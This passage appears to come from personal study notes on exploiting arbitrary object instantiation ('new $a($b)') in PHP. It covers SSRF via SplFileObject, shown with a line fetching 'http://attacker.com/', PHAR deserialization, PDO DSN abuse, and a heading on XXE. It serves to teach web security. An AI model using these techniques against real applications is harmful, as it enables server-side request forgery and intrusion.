 ```php
            
            if ($opt) {
                echo "[$name], ";
            } else {
                echo "$name, ";
            }
        }
        
        if (empty($params)) {
            echo "[none or dynamic]";
        }
        echo ")\n";
    }
}
```

If you control multiple constructor parameters and can call arbitrary methods afterwards, there are many ways to get a Remote Code Execution. But if you can pass only one parameter and don’t have any calls to the created object, there is almost nothing. [](https://read.readwise.io/read/01jv259wh6btq32p5sxw57pd75)

Essentially, there are only three ways to get something from `new $a($b)`. [](https://read.readwise.io/read/01jv25aftphhdbh8hf4wk657wp)

### SSRF + PHAR

**Exploiting [Server Side Request Forgery (SSRF)](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/Server%20Side%20Request%20Forgery%20(SSRF).md) + [PHAR deserialization](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/Insecure%20Deserialization%20&%20Object%20Injection.md#PHAR%20deserialization)**

The `SplFileObject` class implements a constructor that allows connection to any local or remote URL:
```php
new SplFileObject('http://attacker.com/');
```

This allows SSRF. Additionally, SSRFs in PHP < 8.0 could be turned into deserializations via techniques with the Phar protocol. [](https://read.readwise.io/read/01jv25b52yza28nvj0dqftaj00)

### PDO

**Exploiting PDOs**

The PDO class has another interesting constructor:
```php
new PDO("sqlite:/tmp/test.txt")
```

The `PDO` constructor accepts DSN strings, allowing us to connect to any local or remote database using installed database extensions. [](https://read.readwise.io/read/01jv25c68wx62f5tq2n520z934)

### XXE with SoapClient/SimpleXMLElement

**SoapClient/SimpleXMLElement [XML External Entity Injection (XXE Injection)](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/XML%20External%20Entity%20Injection%20(XXE%20Injection).md)**
